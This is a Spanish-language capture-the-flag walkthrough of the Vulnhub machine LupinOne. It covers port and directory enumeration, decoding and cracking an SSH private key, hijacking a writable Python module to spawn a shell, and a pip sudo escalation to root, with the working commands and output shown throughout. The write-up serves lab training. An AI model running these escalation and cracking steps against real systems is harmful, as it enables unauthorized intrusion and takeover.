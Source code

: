 ```yaml
---
title: Vulnhub - LupinOne
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, Vulnhub, Easy]
tags: [Linux, 'LFI to RCE', 'Path Hijacking']
math: true
mermaid: true
image:
  path: /assets/images/Vulnhub/Easy/LupinOne/logo.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: LupinOne Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnhub.

Técnicas usadas: **LFI to RCE, Path Hijacking**

### Fase de Reconocimiento 🧣

Identificamos la dirección IP de la **`Máquina LupinOne`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.24  08:00:27:56:a5:5c       PCS Systemtechnik GmbH
```

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

  ![](/assets/images/Vulnhub/Easy/LupinOne/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

  ![](/assets/images/Vulnhub/Easy/LupinOne/02-versions.png)

c. Antes de fuzzear con herramientas como **wfuzz, gobuster o dirbuster** usaremos el script **http-enum** de nmap

```bash
root@kali> nmap -p80 --script http-enum <IP>

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /robots.txt: Robots file
|   /image/: Potentially interesting directory w/ listing on 'apache/2.4.48 (debian)'
|_  /manual/: Potentially interesting folder
```

* En el fichero **robots.txt** vemos esto:

  ```bash
  User-agent: *
  Disallow: /~myfiles
  ```

* Si visitamos este directorio veremos un Error 404 por lo cual fuzzearemos por otro posible directorio.

  ```bash
  root@kali> wfuzz -c -t 100 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/common.txt 'http://<IP>/~FUZZ/'

  000003667:   200        5 L      54 W       331 Ch      "secret" 
  ```

d. Vemos el contenido del fichero **`secret`**

```txt
Hello Friend, Im happy that you found my secret directory, I created like this to share with you my create ssh private key file,
Its hided somewhere here, so that hackers dont find it and crack my passphrase with fasttrack.
I'm smart I know that.
Any problem let me know
Your best friend icex64
```

* Fuzzeamos por múltiples extensiones de archivos.

  ```bash
  root@kali> wfuzz -c -t 100 --hc=404 --hh=279 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -z list,txt-php-zip 'http://<IP>/~secret/.FUZZ.FUZ2Z'

  000068287:   200        1 L      1 W        4689 Ch     "mysecret"
  ```

e. El contenido de este archivo **http://<IP>/~secret/.mysecret.txt** lo pasamos a [Cyberchef](https://gchq.github.io/CyberChef)

![](/assets/images/Vulnhub/Easy/LupinOne/03-cyberchef.png)

* Al pasar el contenido por **Base58** obtenemos una clave id_rsa encriptada.

* Extraemos el hash de la clave **id_rsa** y lo crackeamos con este [diccionario](https://github.com/drtychai/wordlists/blob/master/fasttrack.txt) (Esto nos dan como pista en **/~secret/**)

  ```bash
  atacante@kali> chmod 600 id_rsa
  atacante@kali> ssh2john id_rsa > hash
  atacante@kali> john hash -w=fasttrack.txt

  P@55w0rd!
  ```

f. Nos autenticamos en el servicio **`ssh`**

```bash
atacante@kali> ssh icex64@192.168.100.24 -i id_rsa

icex64@LupinOne:~$ hostname -I
192.168.100.24 
```

### Escalada de Privilegios 💹

a. Listamos privilegios presentes en el archivo sudoers

```bash
icex64@LupinOne:~$ sudo -l

  (arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py
```

* **`/home/arsene/heist.py`**

  ```py
  import webbrowser

  print ("Its not yet ready to get in action")

  webbrowser.open("https://empirecybersecurity.co.mz")
  ```

b. Como no tenemos la capacidad de crear ficheros en el directorio **`/home/arsene`**, vemos si somos capaces de escribir en el fichero del módulo **`webbrowser`**

```bash
icex64@LupinOne:~$ find / -writable 2>/dev/null | grep -vE "^/proc|^/sys"

<SNIP>
/usr/lib/python3.9/webbrowser.py
<SNIP>
```

* Cambiamos el contenido de este fichero por 

  ```bash
  import os
  os.system("bash")
  ```
  > Esto con el fin de que al momento de ejecutar el script **heist.py**, el comando sea ejecutado por el usuario **`arsene`** y esto nos daría una bash.


* Ejecutamos el script

  ```bash
  icex64@LupinOne:~$ sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
  arsene@LupinOne:/home/icex64$
  ```

* Listamos privilegios que tengamos con este usuario

  ```bash
  arsene@LupinOne:/home/icex64$ sudo -l

    (root) NOPASSWD: /usr/bin/pip
  ```

c. Escalamos privilegios con [Gtfobins - pip](https://gtfobins.github.io/gtfobins/pip/#sudo)

```bash
arsene@LupinOne:/home/icex64$ TF=$(mktemp -d)
arsene@LupinOne:/home/icex64$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
arsene@LupinOne:/home/icex64$ sudo pip install $TF
Processing /tmp/tmp.bD4rZoIdVG
# whoami
root
```